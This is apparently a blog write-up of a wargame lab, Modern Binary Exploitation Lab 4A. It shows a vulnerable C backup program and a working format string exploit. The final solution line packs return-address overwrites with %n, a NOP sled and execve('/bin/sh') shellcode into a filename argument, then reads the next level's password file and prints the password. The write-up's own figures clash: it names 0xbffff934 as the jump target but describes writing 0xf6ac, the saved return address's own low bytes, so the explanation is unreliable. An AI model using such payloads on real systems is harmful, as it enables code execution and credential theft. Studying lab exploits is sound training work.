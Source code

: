 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 4A
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
/*
 *   Format String Lab - A Problem
 *   gcc -z execstack -z relro -z now -o lab4A lab4A.c // -z now compiler flag marks the GOT as completely read-only
 *                                                                                                                                      
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>

#define BACKUP_DIR "./backups/"
#define LOG_FILE "./backups/.log"

void
log_wrapper(FILE *logf, char *msg, char *filename) //msg = "Starting back up: " || "Finied back up " //filename = argv[1]
{
    char log_buf[255];
    strcpy(log_buf, msg); //"Starting back up: "
    snprintf(log_buf+strlen(log_buf), 255-strlen(log_buf)-1/*NULL*/, filename);  
    //"Starting back up: %x%x%x%x" 
    log_buf[strcspn(log_buf, "\n")] = '\0';
    fprintf(logf, "LOG: %s\n", log_buf);
}

int
main(int argc, char *argv[])
{
    char ch = EOF;
    char dest_buf[100];
    FILE *source, *logf;
    int target = -1;

    if (argc != 2) {
        printf("Usage: %s filename\n", argv[0]);
    }

    // Open log file
    logf = fopen(LOG_FILE, "w");
    if (logf == NULL) {
        printf("ERROR: Failed to open %s\n", LOG_FILE);
        exit(EXIT_FAILURE);
    }

    log_wrapper(logf, "Starting back up: ", argv[1]);

    // Open source
    source = fopen(argv[1], "r");
    if (source == NULL) {
        printf("ERROR: Failed to open %s\n", argv[1]);
        exit(EXIT_FAILURE);
    }

    // Open dest
    strcpy(dest_buf, BACKUP_DIR);
    strncat(dest_buf, argv[1], 100-strlen(dest_buf)-1/*NULL*/);
    target = open(dest_buf, O_CREAT | O_EXCL | O_WRONLY, S_IRUSR | S_IWUSR);
    if (target < 0) {
        printf("ERROR: Failed to open %s%s\n", BACKUP_DIR, argv[1]);
        exit(EXIT_FAILURE);
    }

    // Copy data
    while( ( ch = fgetc(source) ) != EOF)
        write(target, &ch, 1);

    log_wrapper(logf, "Finished back up ", argv[1]);

    // Clean up
    fclose(source);
    close(target);

    return EXIT_SUCCESS;
}
{% endhighlight %}

The program takes a file in the current directory and backs it up. To get the program working, we must create a `backups` folder in the current working directory and add a `.log` file to it.

Running `chekcsec` on the binary gives us the following results.
{% highlight bash %}
gdb-peda$ checksec                                                                                                                          
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL
{% endhighlight %}

Because the program is compiled with the `-z relro` and `-z now` flags, full RELRO is enabled. Therefore we can neither overwrite the **GOT** nor the **dtors** section.
Additionally, there is a stack canary which prevents us from performing a traditional stack overflow to corrupt the saved return address.

## Vulnerability

A format string vulnerability is introduced in the `snprintf(log_buf+strlen(log_buf), 255-strlen(log_buf)-1/*NULL*/, filename);` call in the `void log_wrapper()` function. 
The filename of the backup is never validated before being passed into the `snprintf()` call, where it is parsed and written to an offset into the `log_buf` array.
The final result of `log_buf` is later printed to the `/backups/.log` file.

We can exploit this vulnerability by overwriting the saved return address so that when `log_wrapper()` finishes, the program instead of returning back to `main()`, jumps to the location of our shellcode on the stack.

Using **fixenv** and **gdb** with `peda.py` sourced, we can also see that the **SRA** exists at address `0xbffff6ac` 

{% highlight bash %}
0316| 0xbffff6ac --> 0x8048a8b (<main+171>:	mov    eax,DWORD PTR [esp+0xc])
{% endhighlight %}

So we will want to perform 2 controlled writes to overwrite the lower 2 bytes starting at `0xbffff6ac` and the 2 bytes starting at `0xbffff6ae`.

We can also determine that jumping to address `0xbffff934` will take us safely to the middle of our NOP sled before our ***execve("/bin/sh")*** shellcode.

{% highlight bash %}
gdb-peda$ find "0x90909090909090909090" all

[...]

   [stack] : 0xbffff931 --> 0x90909090 
   [stack] : 0xbffff954 --> 0x90909090 
   [stack] : 0xbffff95e --> 0x90909090 
   [stack] : 0xbffff968 --> 0x90909090 
   [stack] : 0xbffff972 --> 0x90909090 
{% endhighlight %}

After performing some calculations, we determine that a width of `%63703x` with `%n` will write `0xf6ac` to `0xbffff6ac` and a width of `%50891x` with `%n` will write `0xbfff` to `0xbffff6ae`. 
As an aside, I could have also used the `%hn` format specifier with different widths to write the same values to those addresses. 

Putting everything together, the following input will give us a shell.

## Solution
{% highlight bash %}
lab4A@warzone:/tmp/lab4A$ fixenv /levels/lab04/lab4A $(python -c 'print "B"+"\xac\xf6\xff\xbf"+"BBBB"+"\xae\xf6\xff\xbf"+"%x"*12+"%63703x%n"+"%50891x%n"+"\x90"*10+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*45')
$ id
uid=1016(lab4A) gid=1017(lab4A) euid=1017(lab4end) groups=1018(lab4end),1001(gameuser),1017(lab4A)
$ cat /home/lab4end/.pass 
1t_w4s_ju5t_4_w4rn1ng
{% endhighlight %}
